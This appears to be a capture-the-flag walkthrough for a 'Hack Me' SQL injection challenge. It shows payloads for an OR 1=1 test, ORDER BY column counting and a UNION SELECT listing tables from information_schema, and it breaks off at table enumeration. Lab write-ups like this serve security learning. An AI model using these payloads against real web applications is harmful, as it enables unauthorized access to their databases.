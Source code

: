 # 🧩 Hack Me Challenge Walkthrough

### 🎯 Objective

Exploit an **SQL Injection** vulnerability on a web application to retrieve the hidden flag.

---

### 🧑‍💻 Step-by-Step Exploitation

#### 1️⃣ Basic Injection — Discovering User Data

**Payload used:**

```
1 OR 1=1
```

**👉 Goal:**
Test whether the input field was vulnerable to SQL Injection.

**✅ Result:**

<img width="1414" height="800" alt="Capture d’écran 2025-08-21 à 19 12 18" src="https://github.com/user-attachments/assets/cf3db248-7724-4277-b99c-664720f03636" />

---

#### 2️⃣ Finding the Number of Columns

**Payloads used:**

```
1 ORDER BY 1 → Valid  
1 ORDER BY 2 → Valid  
1 ORDER BY 3 → Error
```

**👉 Goal:**
Determine how many columns the query uses.

**✅ Result:**

* Error at `ORDER BY 3` confirmed **2 columns** in the query.
* Essential for crafting correct `UNION SELECT` statements.

---

#### 3️⃣ Table Enumeration

**Payload used:**

```
1 UNION SELECT table_name, null FROM information_schema.tables
```

**👉 Goal:**
List all tables in the database.
